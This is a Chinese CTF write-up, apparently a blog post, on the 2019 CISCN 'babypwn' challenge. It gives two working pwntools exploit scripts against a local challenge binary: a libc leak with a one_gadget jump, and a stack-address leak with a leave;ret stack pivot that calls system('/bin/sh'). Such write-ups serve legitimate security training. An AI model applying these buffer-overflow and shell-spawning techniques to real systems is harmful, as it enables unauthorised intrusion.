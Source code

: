 ```yaml
---
title: 2019ciscn华东南babypwn
date: 2019-12-16 15:55:28
tags:
---
```

<!-- more -->
32位程序，开了NX  
![](ciscn2019_es_babypwn1.png)  
溢出函数  
![](ciscn2019_es_babypwn2.png)  
read函数存在溢出，但是溢出字节有点少  
先gdb调试打印出libc基地址，然后用泄露出的真实地址减去libc基地址得到偏移，再用泄露出的真实地址减去偏移即可直接得到libc基地址  
然后直接用one_gadget做一下  
```python  
#coding=utf-8
from pwn import*
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
#p=remote("",)
p = process("./pwn")
elf = ELF("./pwn")
libc = elf.libc
p.recvuntil("name?\n")

#gdb.attach(p)
p.send('A'*0x28)

libc_leak = u32(p.recvuntil("\xf7")[-4:])    #泄露出的是libc的真实地址
log.success("libc_leak==>" + hex(libc_leak))
libc_base = libc_leak-0x1b23dc  # offset = 0x1b23dc
log.success("libc_base==>" + hex(libc_base))
one_gadget = libc_base + 0x3ac5c
payload = 'A'*0x28 + p32(0xdeadbeef) + p32(one_gadget)
p.send(payload)

p.interactive()
```  
如果libc版本一样的话就可以直接拿shell了  
👴回来填坑来了，今天看了个视频，专门讲了这个题，很明了了  
首先我们可以通过泄露出栈地址（这个栈地址就是指的我们输入的东西存储的地址），ebp的位置里边就是一个栈地址，只需要减去一个偏移，就可以leak了  
然后我们在第二次输入的时候，先把ebp覆盖了，然后填system函数，/bin/sh字符串地址，然后把leak出的栈地址填到ebp的位置，然后leave ret就完事儿🌶  
gdb调试一波  
![](0x00.png)
计算出偏移，得到栈地址
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './pwn' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=ELF('/lib/i386-linux-gnu/libc.so.6')
leave_ret = 0x080484b8
system = 0x8048400
def exp():
    p.recvuntil("name?\n")
    p.send('A'*0x28)
    p.recv(0x2f)
    leak = u32(p.recv(4))
    stack = leak-0x38
    log.success("stack_addr==>" + hex(stack))
    payload = p32(stack) + p32(system) + "bbbb" + p32(stack+0x10) + "/bin/sh\x00"  # 4*4=0x10，找到字符串地址
    payload = payload.ljust(0x28,"a")
    payload += p32(stack) + p32(leave_ret)
    p.send(payload)
    p.interactive()
exp()
```  
参考链接：  
https://www.bilibili.com/video/BV1PK4y1t727  
https://zoepla.github.io/2019/06/2019%E5%9B%BD%E8%B5%9B%E5%8D%8E%E5%8D%97%E8%B5%9B%E5%8C%BA%E5%8D%8A%E5%86%B3%E8%B5%9B-pwn%E9%83%A8%E5%88%86%E9%A2%98%E8%A7%A3/  